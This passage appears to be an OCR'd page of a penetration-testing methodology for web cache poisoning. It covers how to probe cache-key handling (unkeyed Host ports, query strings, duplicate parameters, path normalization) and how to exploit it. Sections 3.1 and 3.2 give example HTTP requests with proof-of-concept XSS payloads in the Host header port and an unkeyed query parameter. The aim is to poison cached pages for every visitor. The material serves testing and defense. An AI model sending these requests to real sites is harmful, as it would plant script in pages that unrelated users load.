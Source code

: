 ### 2. Probe Cache Key Handling

Objective: Identify transformations in cache keys (e.g., excluded parameters, normalization).

Steps:

* Test unkeyed ports in the Host header:
```html
GET / HTTP/1.1
Host: example.com:1337  # Poisoning attempt
```
If the cached response retains the port in redirects (e.g., `Location: https://example.com:1337/en`), the port is unkeyed.

* Test unkeyed query strings:
```html
GET /?utm_content=payload HTTP/1.1
Host: example.com
```
If the response is cached and serves the same content regardless of `utm_content`, the query string is unkeyed.

* Test parameter filtering:

Send duplicate parameters or malformed syntax (e.g., `/?param=1&param=2`, `/?param[1]=test`).

Check if the cache ignores duplicates or normalizes input.

* Test path normalization:
```html
GET // HTTP/1.1                 # Apache
GET /%2F HTTP/1.1               # Nginx
GET /index.php/xyz HTTP/1.1     # PHP
```
If these paths are treated as `/` by the server but cached separately, path normalization is flawed.

### 3. Exploit Cache Poisoning

### 3.1 Unkeyed Port in Host Header

Exploit: Inject malicious ports to poison redirects or trigger XSS.
```html
GET / HTTP/1.1
Host: example.com:"><svg onload=alert(1)>
```
If the `Location` header reflects the port, users are redirected to a page with XSS.

### 3.2 Unkeyed Query String

Exploit: Poison cached pages with stored XSS.
```html
GET /?utm_content=<script>alert(1)</script> HTTP/1.1
Host: example.com
```
If the query string is unkeyed, all users visiting `/` will execute the payload.
